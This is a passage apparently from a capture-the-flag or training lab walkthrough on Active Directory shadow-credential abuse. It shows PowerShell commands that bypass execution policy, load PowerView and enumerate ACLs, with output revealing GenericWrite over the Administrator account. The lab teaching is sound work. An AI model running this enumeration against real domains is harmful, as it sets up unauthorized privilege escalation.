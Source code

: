 Please note that an attacker capable of overriding the msDS-KeyCredentialLink of a specific vulnerable user can compromise it.

**Enumeration**

Now is your chance to shine and ensure no security misconfigurations are lurking in the shadows. So, let's get started by dusting off our magnifying glasses (or mouse pointers). Enumerating the Active Directory for the vulnerable permission is the first step to check if the current user has any write capabilities over another user on the AD.

To achieve this, you can use the PowerShell script PowerView with the following command: Find-InterestingDomainAcl

This functionality will list all the abusable privileges. It's then possible to filter for the current user: "hr".

We are specifically looking for any write privilege since the goal is to overwrite the msDS-KeyCredentialLink

From the vulnerable machine, launch PowerShell, which is pinned on your taskbar, and enter the following commands:

- ```cd C:\Users\hr\Desktop``` moves to the folder containing all the exploitation tools.
- ```powershell -ep bypass``` will bypass the default policy for arbitrary PowerShell script execution.
- ```. .\PowerView.ps1``` loads the PowerView script into the memory.

At this point, we can enumerate the privileges by running:

Find-InterestingDomainAcl -ResolveGuids

As you may see, this command will return all users' privileges. Since we are specifically looking for the current user "hr", we need to filter out using:

Where-Object { $_.IdentityReferenceName -eq "hr" }  

We're interested in the current user, the vulnerable user, and the privilege assigned. We can filter that out by running:

Select-Object IdentityReferenceName, ObjectDN, ActiveDirectoryRights

Now, you can launch the full command:

```
Find-InterestingDomainAcl -ResolveGuids | Where-Object { $_.IdentityReferenceName -eq "hr" } | Select-Object IdentityReferenceName, ObjectDN, ActiveDirectoryRights
```

```
PS C:\Users\hr> cd C:\Users\hr\Desktop
PS C:\Users\hr\Desktop> powershell -ep bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\hr\Desktop> . .\PowerView.ps1
PS C:\Users\hr\Desktop> Find-InterestingDomainAcl -ResolveGuids | Where-Object { $_.IdentityReferenceName -eq "hr" } | Select-Object IdentityReferenceName, ObjectDN, ActiveDirectoryRights

IdentityReferenceName ObjectDN                                                    ActiveDirectoryRights
--------------------- --------                                                    ---------------------
hr                    CN=Administrator,CN=Users,DC=AOC,DC=local ListChildren, ReadProperty, GenericWrite

PS C:\Users\hr\Desktop>
```

